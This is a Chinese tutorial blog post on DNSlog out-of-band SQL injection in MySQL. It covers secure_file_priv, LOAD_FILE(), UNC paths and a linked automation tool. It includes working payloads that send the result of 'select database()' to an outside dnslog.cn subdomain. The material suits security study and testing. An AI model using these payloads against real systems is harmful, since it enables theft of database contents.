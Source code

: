 # 原创
：  【SQL注入-有回显】DNS请求注入：原理、平台、使用过程、配置

# 【SQL注入-有回显】DNS请求注入：原理、平台、使用过程、配置

**目录**

[一、DNS请求注入](#DNSlog%E6%B3%A8%E5%85%A5)

[1.1、DNSlog平台：](#DNSlog%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、DNSlog注入原理](#DNSlog%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86)

[二、前提条件：](#%E5%89%8D%E6%8F%90%E6%9D%A1%E4%BB%B6%EF%BC%9A)

[2.1、简介：](#2.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[2.2、查看配置：](#%E5%A6%82%E4%BD%95%E6%9F%A5%E7%9C%8B%EF%BC%9A)

[2.3、配置设置：](#%E5%A6%82%E4%BD%95%E8%AE%BE%E7%BD%AE%EF%BC%9A)

[2.4、相关函数：](#%E7%9B%B8%E5%85%B3%E5%87%BD%E6%95%B0%EF%BC%9A)

[2.5、UNC路径](#UNC%E8%B7%AF%E5%BE%84)

[三、DNSlog注入过程：](#%E4%B8%89%E3%80%81DNSlog%E6%B3%A8%E5%85%A5%E8%BF%87%E7%A8%8B%EF%BC%9A)

[3.1、第一步：Get SubDomain  获得域名](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9AGet%20SubDomain%C2%A0%20%E8%8E%B7%E5%BE%97%E5%9F%9F%E5%90%8D)

[3.2、第二步：构造注入语句](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%9E%84%E9%80%A0%E6%B3%A8%E5%85%A5%E8%AF%AD%E5%8F%A5)

[3.3、第三步：查看域名头部，带出了查询的信息](#3.3%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9F%A5%E7%9C%8B%E5%9F%9F%E5%90%8D%E5%A4%B4%E9%83%A8%EF%BC%8C%E5%B8%A6%E5%87%BA%E4%BA%86%E6%9F%A5%E8%AF%A2%E7%9A%84%E4%BF%A1%E6%81%AF)

[四、DNSlongsqlinj工具](#DNSlongsqlinj%E5%B7%A5%E5%85%B7%E7%9A%84%E4%BD%BF%E7%94%A8)

---


## 一、DNS请求注入

> 
<h3>1.1、DNSlog平台：</h3>
[http://www.dnslog.cn](http://www.dnslog.cn/)
[http://ceye.io](http://ceye.io/)
[http://admin.dnslog.link](https://www.freebuf.com/column/184587.html)


> 
<h3>1.2、DNSlog注入原理</h3>
dnslog注入也可以称之为dns带外查询，是一种注入姿势，可以通过查询相应的dns解析记录，来获取我们想要的数据
<hr/>
在无法通过联合查询直接获取数据时，只能通过盲注，来一步步的获取数据，手工测试是需要花费大量的时间，使用sqlmap直接去跑出数据，但是有很大的几率，网站把ip给封掉，这就影响了测试进度


---


---


## 二、前提条件：

> 
<h3>2.1、简介：</h3>
dns带外查询属于MySQL注入
在MySQL中有个系统属性，secure_file_priv特性，有三种状态
secure_file_priv为null    表示不允许导入导出
secure_file_priv指定文件夹时，表示mysql的导入导出只能发生在指定的文件夹
secure_file_priv没有设置时，则表示没有任何限制


> 
<h3>2.2、查看配置：</h3>
[手动打开数据库，新版phpstudy启动MySQL命令符图解过程<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/123047469?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165521166116782395352907%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165521166116782395352907&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-123047469-null-null.nonecase&amp;utm_term=%E6%89%8B%E5%8A%A8%E6%89%93%E5%BC%80%E6%95%B0%E6%8D%AE%E5%BA%93&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/123047469?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165521166116782395352907%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165521166116782395352907&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-123047469-null-null.nonecase&amp;utm_term=%E6%89%8B%E5%8A%A8%E6%89%93%E5%BC%80%E6%95%B0%E6%8D%AE%E5%BA%93&amp;spm=1018.2226.3001.4450)
是否配置好，打开数据库

 因为我的secure_file_priv设置过，所以没有任何限制


> 
<h3>2.3、配置设置：</h3>
打开MySQL文件夹，打开my.ini配置文件


把这里改为空，如果没有这一段代码，则手动加上去<img alt="" height="647" src="https://img-blog.csdnimg.cn/94f88cc7a2d645f6845040f51a3ccbf8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6buR6Imy5Zyw5bimKOW0m-i1tyk=,size_20,color_FFFFFF,t_70,g_se,x_16" width="872"/>
然后重启数据库 


> 
<h3>2.4、相关函数：</h3>
LOAD_FILE()函数
读取一个文件并将其内容作为字符串返回
语法：load_file(文件的完整路径）
此函数使用需要满足的条件
文件必须位于服务器主机上，具有该FILE权限才能读取该文件，拥有该FILE权限的用户可以读取服务器主机上的任何文件，该文件是world-readable的或MySQL服务器可读的，此属性与secure_file_priv状态相关，并且它的大小小于max_allowed_packet字节


> 
<h3>2.5、UNC路径</h3>
格式为
\\servername\sharename\……
 servername 是服务器名，sharename 是共享资源的名称


---


---


## 三、DNSlog注入过程：

> 
<h3>3.1、第一步：Get SubDomain  获得域名</h3>




> 
<h3>3.2、第二步：构造注入语句</h3>
（根据实际情况构造）
  select load_file(concat('//',(select database()),'.casro0.dnslog.cn/abc'))
  select load_file(concat('\\\\',(select database()),'.casro0.dnslog.cn\\123'))
load_file()函数访问的是文件，所以域名后面需要添加/abc
<hr/>
成功注入后，在数据库中运行





> 
<h3>3.3、第三步：查看域名头部，带出了查询的信息</h3>

注意：外带信息有特殊字符，如@
可以将查询语句后的结果进行转码
即上面的(select database())--------&gt;hex(select database())等形式


> 
<h2>四、DNSlongsqlinj工具</h2>
[ADOOO/DnslogSqlinj (github.com)<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://github.com/ADOOO/DnslogSqlinj](https://github.com/ADOOO/DnslogSqlinj)


